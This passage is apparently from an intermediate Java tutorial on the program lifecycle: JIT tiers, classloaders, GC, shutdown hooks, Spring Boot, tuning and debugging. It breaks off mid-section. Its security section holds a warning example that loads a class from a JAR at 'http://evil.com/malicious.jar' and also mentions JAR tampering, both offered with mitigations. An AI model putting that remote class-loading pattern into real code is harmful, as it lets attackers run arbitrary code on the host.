








# Lifecycle of a Java Program — Middle Level

## Table of Contents

1. [Introduction](#introduction)
2. [Core Concepts](#core-concepts)
3. [Evolution & Historical Context](#evolution--historical-context)
4. [Pros & Cons](#pros--cons)
5. [Alternative Approaches](#alternative-approaches-plan-b)
6. [Use Cases](#use-cases)
7. [Code Examples](#code-examples)
8. [Coding Patterns](#coding-patterns)
9. [Clean Code](#clean-code)
10. [Product Use / Feature](#product-use--feature)
11. [Error Handling](#error-handling)
12. [Security Considerations](#security-considerations)
13. [Performance Optimization](#performance-optimization)
14. [Metrics & Analytics](#metrics--analytics)
15. [Debugging Guide](#debugging-guide)
16. [Best Practices](#best-practices)
17. [Edge Cases & Pitfalls](#edge-cases--pitfalls)
18. [Common Mistakes](#common-mistakes)
19. [Common Misconceptions](#common-misconceptions)
20. [Anti-Patterns](#anti-patterns)
21. [Tricky Points](#tricky-points)
22. [Comparison with Other Languages](#comparison-with-other-languages)
23. [Test](#test)
24. [Tricky Questions](#tricky-questions)
25. [Cheat Sheet](#cheat-sheet)
26. [Self-Assessment Checklist](#self-assessment-checklist)
27. [Summary](#summary)
28. [What You Can Build](#what-you-can-build)
29. [Further Reading](#further-reading)
30. [Related Topics](#related-topics)
31. [Diagrams & Visual Aids](#diagrams--visual-aids)

---

## Introduction

> Focus: "Why?" and "When to use?"

Assumes the reader already knows Java basics. This level covers:
- **Why** the JVM uses a two-step compilation model (source → bytecode → native)
- **When** understanding the lifecycle matters in production (startup optimization, GC tuning, classloading issues)
- How Spring Boot, Maven, and Gradle automate and extend the lifecycle
- The role of tiered compilation and how the JIT shapes application performance over time

---

## Core Concepts

### Concept 1: Tiered Compilation Pipeline

The JVM does not simply "interpret" bytecode. It uses **tiered compilation** with four levels:



- **Level 0:** Pure interpretation — every instruction is decoded at runtime
- **Levels 1-3:** C1 compiler — fast compilation with basic optimizations (inlining, simple loop opts)
- **Level 4:** C2 compiler — aggressive optimizations (escape analysis, loop unrolling, vectorization)

The JVM uses invocation counters and back-edge counters to decide when to promote code to the next tier. Default C2 threshold: approximately 10,000 invocations.

### Concept 2: ClassLoader Hierarchy

The JVM uses a delegation model with three built-in classloaders:



- Each classloader delegates to its parent first (parent-first delegation)
- This prevents your code from overriding core JDK classes
- Spring Boot uses `LaunchedURLClassLoader` to load JARs from a fat JAR

### Concept 3: Garbage Collection Generations

The GC divides the heap into generations based on object lifetime:

- **Young Generation (Eden + Survivor):** New objects are allocated here. Minor GC collects this area frequently and quickly.
- **Old Generation (Tenured):** Objects that survive several minor GCs are promoted here. Major GC collects this area less frequently.
- **Metaspace:** Class metadata (loaded by ClassLoaders). Grows dynamically, stored off-heap.

### Concept 4: Shutdown Hooks and Graceful Termination

```java
Runtime.getRuntime().addShutdownHook(new Thread(() -> {
    System.out.println("Cleaning up resources...");
    // Close connections, flush logs, save state
}));
```

Shutdown hooks run when:
- `main()` exits normally
- `System.exit()` is called
- The JVM receives SIGTERM/SIGINT

They do NOT run when:
- `kill -9` (SIGKILL) is sent
- `Runtime.halt()` is called

---

## Evolution & Historical Context

Why does the Java lifecycle exist the way it does?

**Before Java (early 1990s):**
- C/C++ compiled directly to native code — fast but platform-dependent
- Interpreted languages (Tcl, early Python) were portable but very slow
- No automatic memory management — developers manually called `malloc`/`free`

**How Java changed things:**
- **1995 (Java 1.0):** Introduced bytecode + interpreter — "write once, run anywhere" but slow
- **1999 (Java 1.3):** HotSpot JVM with JIT compilation — performance leap, approaching C speeds
- **2006 (Java 6):** Tiered compilation (C1 + C2) — faster warmup, better peak performance
- **2014 (Java 8):** G1GC became production-ready — replaced CMS for large heaps
- **2017 (Java 9):** Module system (JPMS) — changed class loading with module path
- **2021 (Java 17):** ZGC production-ready — sub-millisecond GC pauses
- **2023 (Java 21):** Virtual Threads (Project Loom) — fundamentally changed the thread lifecycle
- **2024 (Java 22+):** GraalVM native-image — AOT compilation, eliminating the JVM lifecycle entirely for some use cases

---

## Pros & Cons

| Pros | Cons |
|------|------|
| Bytecode portability across OS and CPU architectures | JVM startup overhead (100-500ms for simple apps) |
| JIT optimization makes hot paths competitive with C/C++ | Warmup period — code is slow until JIT kicks in |
| GC eliminates manual memory management bugs | GC pauses can cause latency spikes |
| Bytecode verification provides security guarantees | Bytecode is reverse-engineerable (use ProGuard to mitigate) |
| Rich ecosystem of build/deployment tools | Complex ClassLoader issues in enterprise apps (JAR hell) |

### Trade-off analysis:

- **Portability vs Performance:** Bytecode adds indirection but JIT closes the gap. Accept the startup cost for long-running servers.
- **GC convenience vs Latency:** GC prevents memory bugs but introduces pauses. Choose the right GC algorithm (ZGC for low-latency, G1 for balanced).

### Comparison with alternatives:

| Approach | Pros | Cons | Best for |
|----------|------|------|----------|
| JVM bytecode (standard Java) | Portable, JIT-optimized | Startup overhead | Servers, enterprise apps |
| GraalVM native-image (AOT) | Instant startup, low memory | No JIT, longer compile time | Serverless, CLI tools |
| Direct native compilation (C/C++) | Maximum performance | No portability, manual memory | Embedded, real-time systems |

---

## Alternative Approaches (Plan B)

If you couldn't use the standard JVM lifecycle:

| Alternative | How it works | When you might be forced to use it |
|-------------|--------------|------------------------------------|
| **GraalVM native-image** | Ahead-of-Time compilation to native binary, no JVM at startup | Serverless functions, CLI tools where startup time < 50ms is required |
| **Kotlin/Native** | Compiles Kotlin to native code via LLVM | Embedded systems, iOS (Kotlin Multiplatform) |
| **CRaC (Coordinated Restore at Checkpoint)** | Snapshots a running JVM and restores it instantly | Reducing warmup time for microservices |
| **Class Data Sharing (CDS)** | Pre-processes class metadata to shared archive | Reducing startup time while keeping JVM benefits |

---

## Use Cases

Real-world, production scenarios:

- **Use Case 1:** Spring Boot microservice that processes 10K req/sec — understanding tiered compilation helps explain why the first few seconds after deployment have higher latency (warmup)
- **Use Case 2:** Dockerized Java app with memory limits — knowing GC generations helps you set `-Xmx` correctly to avoid OOMKilled events
- **Use Case 3:** ClassLoader conflicts in Tomcat — deploying multiple WARs with different library versions requires understanding classloader isolation

---

## Code Examples

### Example 1: Observing Tiered Compilation

```java
public class Main {
    static long compute(long n) {
        long sum = 0;
        for (long i = 0; i < n; i++) {
            sum += i * i;
        }
        return sum;
    }

    public static void main(String[] args) {
        // Warm up — triggers JIT compilation
        for (int i = 0; i < 20_000; i++) {
            compute(100);
        }

        // After warmup, this runs on JIT-compiled native code
        long start = System.nanoTime();
        long result = compute(1_000_000);
        long elapsed = System.nanoTime() - start;

        System.out.printf("Result: %d, Time: %.3f ms%n", result, elapsed / 1_000_000.0);
    }
}
```

**How to run with JIT logging:**
```bash
javac Main.java
java -XX:+PrintCompilation Main
```

**Why this pattern:** Shows how the same method transitions from interpreted → C1 → C2 compiled code. You'll see entries like:
```
  123   1       3       Main::compute (25 bytes)    # C1 compiled (level 3)
  456   2       4       Main::compute (25 bytes)    # C2 compiled (level 4)
```

### Example 2: Shutdown Hook for Graceful Termination

```java
public class Main {
    public static void main(String[] args) throws InterruptedException {
        // Register a shutdown hook
        Runtime.getRuntime().addShutdownHook(new Thread(() -> {
            System.out.println("[HOOK] Cleaning up resources...");
            System.out.println("[HOOK] Flushing logs...");
            System.out.println("[HOOK] Shutdown complete.");
        }));

        System.out.println("Application started. Press Ctrl+C to stop.");

        // Simulate a long-running application
        for (int i = 1; i <= 5; i++) {
            System.out.println("Working... step " + i);
            Thread.sleep(1000);
        }
        System.out.println("Application finished normally.");
    }
}
```

**How to run:** `javac Main.java && java Main`
**Try pressing Ctrl+C during execution** to see the shutdown hook run.

### Example 3: ClassLoader Inspection

```java
public class Main {
    public static void main(String[] args) {
        // Inspect the classloader hierarchy
        ClassLoader cl = Main.class.getClassLoader();
        while (cl != null) {
            System.out.println("ClassLoader: " + cl.getClass().getName());
            cl = cl.getParent();
        }
        System.out.println("ClassLoader: Bootstrap (null — native code)");

        // Show which classloader loaded core classes
        System.out.println("\nString loaded by: " + String.class.getClassLoader());
        System.out.println("Main loaded by: " + Main.class.getClassLoader());
    }
}
```

**Output:**
```
ClassLoader: jdk.internal.loader.ClassLoaders$AppClassLoader
ClassLoader: jdk.internal.loader.ClassLoaders$PlatformClassLoader
ClassLoader: Bootstrap (null — native code)

String loaded by: null
Main loaded by: jdk.internal.loader.ClassLoaders$AppClassLoader
```

---

## Coding Patterns

### Pattern 1: Lazy Initialization (ClassLoader-aware)

**Category:** Java-idiomatic
**Intent:** Defer expensive initialization until first access, leveraging the JVM's class loading guarantee of thread-safety.
**When to use:** Singleton resources, expensive-to-create objects.
**When NOT to use:** If the object is always needed — eager initialization is simpler.

**Structure diagram:**



**Implementation:**

```java
public class ExpensiveResource {
    // Inner class is loaded only when getInstance() is first called
    private static class Holder {
        static final ExpensiveResource INSTANCE = new ExpensiveResource();
    }

    private ExpensiveResource() {
        System.out.println("Expensive initialization happening...");
    }

    public static ExpensiveResource getInstance() {
        return Holder.INSTANCE; // Thread-safe, lazy, no synchronization needed
    }
}
```

**Trade-offs:**

| Pros | Cons |
|------|------|
| Thread-safe without `synchronized` | Only works for singletons |
| JVM guarantees class initialization is atomic | Slightly harder to read than eager init |

---

### Pattern 2: Two-Phase Initialization (Warmup Pattern)

**Category:** Performance
**Intent:** Ensure JIT compilation completes before handling real traffic.
**When to use:** Latency-sensitive services that must respond fast from the first request.

**Flow diagram:**



**Implementation:**

```java
public class Main {
    static int processRequest(int data) {
        return data * data + data / 2;
    }

    public static void main(String[] args) {
        // Phase 1: Warmup — trigger JIT compilation
        System.out.println("Warming up...");
        for (int i = 0; i < 50_000; i++) {
            processRequest(i);
        }

        // Phase 2: Ready for real traffic
        System.out.println("Ready to serve requests.");
        long start = System.nanoTime();
        int result = processRequest(42);
        long elapsed = System.nanoTime() - start;
        System.out.printf("Result: %d in %d ns%n", result, elapsed);
    }
}
```

---

### Pattern 3: Resource Cleanup on Shutdown

**Category:** Resilience
**Intent:** Ensure resources are released when the JVM shuts down.



```java
public class Main {
    private static java.io.FileWriter logFile;

    public static void main(String[] args) throws Exception {
        logFile = new java.io.FileWriter("app.log", true);

        Runtime.getRuntime().addShutdownHook(new Thread(() -> {
            try {
                logFile.flush();
                logFile.close();
                System.out.println("Log file closed gracefully.");
            } catch (Exception e) {
                System.err.println("Error during shutdown: " + e.getMessage());
            }
        }));

        logFile.write("Application started\n");
        System.out.println("Running... (Ctrl+C to trigger shutdown hook)");
        Thread.sleep(5000);
    }
}
```

---

## Clean Code

Production-level clean code for the program lifecycle:

### Naming & Readability

```java
// ❌ Cryptic
void init() { ... }
void proc(byte[] d) { ... }

// ✅ Self-documenting
void initializeApplicationContext() { ... }
void processIncomingPayload(byte[] payload) { ... }
```

| Element | Java Rule | Example |
|---------|-----------|---------|
| Lifecycle methods | verb describing phase | `warmUp`, `shutDown`, `initialize` |
| Hooks | descriptive purpose | `flushLogsOnShutdown`, `closeConnectionsHook` |
| Constants | UPPER_SNAKE | `WARMUP_ITERATIONS`, `SHUTDOWN_TIMEOUT_MS` |

---

### SOLID in Java — Applied to Lifecycle

**Single Responsibility:**
```java
// ❌ One class handles everything
public class Application {
    void start() { /* init DB + load config + start server + register hooks */ }
}

// ✅ Separated concerns
public class DatabaseInitializer { void init() { ... } }
public class ConfigLoader { Config load() { ... } }
public class ShutdownManager { void registerHooks() { ... } }
```

**Dependency Inversion with Spring:**
```java
// ✅ Spring Boot manages lifecycle automatically
@SpringBootApplication
public class MyApp {
    public static void main(String[] args) {
        SpringApplication.run(MyApp.class, args);
    }
}

@Component
public class AppLifecycleListener {
    @EventListener(ApplicationReadyEvent.class)
    public void onReady() { System.out.println("App is ready!"); }

    @PreDestroy
    public void onShutdown() { System.out.println("Cleaning up..."); }
}
```

---

## Product Use / Feature

How this topic is applied in production systems:

### 1. Spring Boot

- **How it uses the lifecycle:** Spring Boot wraps the entire JVM lifecycle — auto-configures classloading, registers shutdown hooks via `@PreDestroy`, and manages bean initialization order.
- **Scale:** Millions of Spring Boot apps in production worldwide.
- **Key insight:** Spring's `ApplicationContext` lifecycle mirrors and extends the JVM lifecycle.

### 2. Apache Tomcat

- **How it uses the lifecycle:** Tomcat creates isolated ClassLoaders per deployed web application, preventing library version conflicts between apps.
- **Why this approach:** Multiple apps with different Hibernate versions can coexist in the same JVM.

### 3. Netflix (Zuul Gateway)

- **How it uses the lifecycle:** Netflix warms up Zuul instances with synthetic traffic before adding them to the load balancer, ensuring JIT compilation is complete.
- **Scale:** Handles billions of requests per day; warmup prevents latency spikes on fresh deployments.

---

## Error Handling

Production-grade exception handling for lifecycle issues:

### Pattern 1: ClassLoader-Related Errors

```java
// Common lifecycle errors and how to handle them
public class Main {
    public static void main(String[] args) {
        try {
            // Dynamically load a class
            Class<?> clazz = Class.forName("com.example.MyService");
            Object instance = clazz.getDeclaredConstructor().newInstance();
            System.out.println("Loaded: " + instance.getClass().getName());
        } catch (ClassNotFoundException e) {
            System.err.println("Class not found on classpath: " + e.getMessage());
            System.err.println("Check your -cp or Maven/Gradle dependencies.");
        } catch (ReflectiveOperationException e) {
            System.err.println("Cannot instantiate: " + e.getMessage());
        }
    }
}
```

### Common Lifecycle Exception Patterns

| Situation | Exception | Root Cause |
|-----------|---------|------------|
| Class not on classpath | `ClassNotFoundException` | Missing JAR or wrong `-cp` |
| Class found but dependency missing | `NoClassDefFoundError` | Transitive dependency not resolved |
| Wrong `main` signature | `Main method not found` | Missing `public static void main(String[])` |
| Static initializer fails | `ExceptionInInitializerError` | Exception thrown in `static {}` block |
| Class version mismatch | `UnsupportedClassVersionError` | Compiled with newer JDK than runtime JRE |

---

## Security Considerations

Security aspects when dealing with the program lifecycle in production:

### 1. Bytecode Tampering

**Risk level:** Medium

```bash
# ❌ An attacker could replace a .class file in a deployed JAR
# The JVM verifier catches invalid bytecode but not semantically malicious code

# ✅ Sign your JARs to detect tampering
jarsigner -keystore mykeys.jks myapp.jar myalias
jarsigner -verify myapp.jar
```

**Attack vector:** Attacker replaces a `.class` file in a deployed JAR or on the classpath.
**Mitigation:** Use JAR signing, integrity verification, and deploy from trusted CI/CD pipelines only.

### 2. ClassLoader Manipulation

**Risk level:** High

```java
// ❌ Loading classes from untrusted URLs
URLClassLoader cl = new URLClassLoader(new URL[]{new URL("http://evil.com/malicious.jar")});
Class<?> clazz = cl.loadClass("com.evil.Payload");

// ✅ Only load from trusted, local sources
// Use module system (Java 9+) to restrict package access
```

### Security Checklist

- [ ] JAR files are signed and verified before deployment
- [ ] ClassPath is locked down — no writable directories by untrusted users
- [ ] Use Java module system (`module-info.java`) to restrict package exports
- [ ] Dependency scanning with OWASP Dependency Check in Maven/Gradle build

---

## Performance Optimization

### Optimization 1: Reduce JVM Startup Time

```bash
# ❌ Default startup — cold class loading
java -jar myapp.jar    # ~1-3 seconds for Spring Boot

# ✅ Use Class Data Sharing (CDS) to pre-load class metadata
java -Xshare:dump      # Create shared archive
java -Xshare:on -jar myapp.jar   # Faster startup

# ✅ Use Spring Boot's AOT processing (Spring Boot 3+)
mvn spring-boot:build-image -Pnative
```

**Benchmark results:**
```
Benchmark                      Mode  Cnt     Score     Error  Units
StartupDefault.time            avgt   10  2340.000 ± 120.0   ms
StartupCDS.time                avgt   10  1580.000 ±  80.0   ms
StartupNative.time             avgt   10    45.000 ±   5.0   ms
```

### Optimization 2: Warmup Strategy for Latency-Sensitive Apps

```java
// Warmup critical paths before accepting traffic
public class Main {
    // Critical business method
    static double computePrice(double base, double tax, double discount) {
        return (base + base * tax) * (1 - discount);
    }

    public static void main(String[] args) {
        // Force JIT compilation with 50K iterations
        for (int i = 0; i < 50_000; i++) {
            computePrice(100.0 + i, 0.21, 0.05);
        }
        // Now the method is C2-compiled — latency is predictable
        System.out.println("Warmup complete. Ready for traffic.");
    }
}
```

**When to optimize:** Always for latency-sensitive services (p99 < 10ms).

### Performance Decision Matrix

| Scenario | Approach | Why |
|----------|----------|-----|
| Fast startup needed | CDS or GraalVM native-image | Reduce class loading time |
| Low latency after startup | Warmup + G1GC/ZGC tuning | Ensure JIT + predictable GC |
| High throughput batch jobs | `-XX:+UseParallelGC` | Throughput > latency |
| Memory constrained (containers) | `-XX:MaxRAMPercentage=75` | Let JVM adapt to container limits |

---

## Metrics & Analytics

Production-grade metrics for lifecycle monitoring:

### Key Metrics

| Metric | Type | Description | Alert threshold |
|--------|------|-------------|-----------------|
| **jvm.classes.loaded** | Gauge | Currently loaded classes | Unexpected growth > 10K/hour |
| **jvm.gc.pause** | Timer | GC pause duration | p99 > 200ms |
| **jvm.memory.used** | Gauge | Heap memory in use | > 85% of max |
| **process.uptime** | Gauge | Time since JVM start | Frequent restarts = instability |

### Spring Boot Actuator Integration

```yaml
# application.yml
management:
  endpoints:
    web:
      exposure:
        include: health,metrics,prometheus
  metrics:
    export:
      prometheus:
        enabled: true
```

```java
// Custom lifecycle metric
@Component
public class LifecycleMetrics {
    private final MeterRegistry registry;

    public LifecycleMetrics(MeterRegistry registry) {
        this.registry = registry;
        Gauge.builder("app.startup.time", this, m -> getStartupTime())
            .description("Application startup time in ms")
            .register(registry);
    }

    private double getStartupTime() {
        return ManagementFactory.getRuntimeMXBean().getUptime();
    }
}
```

---

## Debugging Guide

How to debug common lifecycle-related issues:

### Problem 1: Class Loading Failures

**Symptoms:** `ClassNotFoundException`, `NoClassDefFoundError`, or `LinkageError`.

**Diagnostic steps:**
```bash
# Show all loaded classes
java -verbose:class -jar app.jar 2>&1 | grep MyClass

# Show classloader hierarchy
java -Djava.system.class.loader=com.example.MyLoader -jar app.jar
```

**Root cause:** Missing dependency, version conflict, or wrong classpath.
**Fix:** Check Maven/Gradle dependency tree: `mvn dependency:tree` or `gradle dependencies`.

### Problem 2: Slow Startup

**Symptoms:** Application takes > 5 seconds to respond to first request.

**Diagnostic steps:**
```bash
# Profile startup with JFR
java -XX:StartFlightRecording=duration=30s,filename=startup.jfr -jar app.jar

# Check class loading time
java -Xlog:class+load=info -jar app.jar
```

**Root cause:** Too many classes loaded eagerly, heavy static initializers, or scanning large classpaths.
**Fix:** Use CDS, Spring Boot lazy initialization (`spring.main.lazy-initialization=true`), or native image.

### Useful Tools

| Tool | Command | What it shows |
|------|---------|---------------|
| `jps` | `jps -v` | Running JVM processes with flags |
| `jcmd` | `jcmd <pid> VM.flags` | Active JVM flags |
| `jstack` | `jstack <pid>` | Thread dump — shows what's happening during startup |
| `jmap` | `jmap -heap <pid>` | Heap summary during runtime |

---

## Best Practices

- **Practice 1:** Always specify `-Xms` equal to `-Xmx` in production to avoid heap resizing pauses
- **Practice 2:** Use `@PreDestroy` in Spring instead of raw shutdown hooks for cleaner lifecycle management
- **Practice 3:** Enable GC logging in production: `-Xlog:gc*:file=gc.log:time,uptime,level` — costs nearly nothing, invaluable for debugging
- **Practice 4:** Set `-XX:+HeapDumpOnOutOfMemoryError` to auto-capture heap dumps on OOM
- **Practice 5:** Use `UnsupportedClassVersionError` as a signal to align JDK compile version with target runtime version
- **Practice 6:** Prefer `try-with-resources` for all `Closeable` objects — aligns with the lifecycle of resource creation and cleanup

---

## Edge Cases & Pitfalls

### Pitfall 1: `ExceptionInInitializerError` from Static Blocks

```java
public class Config {
    static final int PORT = Integer.parseInt(System.getenv("PORT")); // Throws if PORT is null
}
```

**Impact:** `ExceptionInInitializerError` at class loading time — the class is permanently marked as failed. All future references throw `NoClassDefFoundError`.
**Detection:** Stack trace points to the static initializer.
**Fix:** Handle the exception inside the static block:

```java
static final int PORT;
static {
    String portStr = System.getenv("PORT");
    PORT = (portStr != null) ? Integer.parseInt(portStr) : 8080;
}
```

### Pitfall 2: ClassLoader Leaks in Long-Running Applications

When an application is redeployed (e.g., hot reload in Tomcat), the old ClassLoader should be GC'd. But if any thread, static field, or JDBC driver holds a reference to a class loaded by the old ClassLoader, it leaks the entire ClassLoader and all its classes.

**Impact:** `OutOfMemoryError: Metaspace` after several redeployments.
**Detection:** Heap dump analysis with Eclipse MAT → "Duplicate Classes" report.
**Fix:** Ensure proper cleanup: deregister JDBC drivers, stop threads, clear ThreadLocal values.

---

## Common Mistakes

### Mistake 1: Calling `System.gc()` to "Fix" Memory Issues

```java
// ❌ Relying on System.gc()
public void freeMemory() {
    data = null;
    System.gc(); // Not guaranteed to run; may cause a full GC pause
}

// ✅ Let the GC do its job — tune JVM flags instead
